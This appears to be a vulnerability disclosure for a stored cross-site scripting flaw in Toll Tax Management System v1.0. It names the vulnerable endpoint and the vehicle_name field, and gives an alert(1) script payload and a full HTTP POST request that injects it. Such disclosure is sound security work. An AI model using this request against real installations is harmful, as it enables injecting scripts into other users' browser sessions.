 # toll-tax-management-system v1.0 - Cross-site Scripting (XSS)

vendors: https://www.sourcecodester.com/php/15304/toll-tax-management-system-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /ttms/classes/Master.php?f=save_recipient

Vulnerability location: /ttms/classes/Master.php?f=save_recipient, vehicle_name

[+] Payload: <sCrIpT>alert(1)</sCrIpT>

Tested on Windows 10, XAMPP

```
POST /ttms/classes/Master.php?f=save_recipient HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------24404946016694802869537324
Content-Length: 870
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/ttms/admin/?page=recipients/manage_recipient
Cookie: PHPSESSID=0389fublnj7ggho8q04fuvfaqe

-----------------------------24404946016694802869537324
Content-Disposition: form-data; name="id"


-----------------------------24404946016694802869537324
Content-Disposition: form-data; name="category_id"

2
-----------------------------24404946016694802869537324
Content-Disposition: form-data; name="toll_id"

2
-----------------------------24404946016694802869537324
Content-Disposition: form-data; name="vehicle_name"

<ScRiPt>alert(1)</ScRiPt>
-----------------------------24404946016694802869537324
Content-Disposition: form-data; name="vehicle_registration"

asd
-----------------------------24404946016694802869537324
Content-Disposition: form-data; name="owner"

asd
-----------------------------24404946016694802869537324
Content-Disposition: form-data; name="cost"

100
-----------------------------24404946016694802869537324--

```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/xss.gif?raw=true)